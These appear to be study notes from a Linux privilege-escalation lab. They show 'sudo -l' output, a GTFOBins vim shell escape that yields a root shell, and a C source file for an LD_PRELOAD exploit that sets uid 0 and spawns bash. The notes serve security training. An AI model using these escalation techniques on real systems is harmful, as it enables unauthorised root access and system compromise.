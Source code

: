 
### Sudo Shell Escaping
#gtfobins [Gtfobins](https://gtfobins.github.io/#)

- Find what current user can do with Sudo. 
~~~bash
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more

~~~

- Go to gtfobins and copy codes
~~~bash
sudo vim -c ':!/bin/sh'
~~~

- Run that in the terminal of current user. 
~~~bash
TCM@debian:~$ sudo vim -c ':!/bin/sh'

sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# 
~~~

- Rooted machine. 

### Intended Functionality
Sudo file that do not have privilege escalation in gtfobin. In that case, google that file privilege escalation and find some command related to it which will help for rooting. 

### LD_PRELOAD

- Create shell.c file for exploit
~~~bash
include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
}
~~~
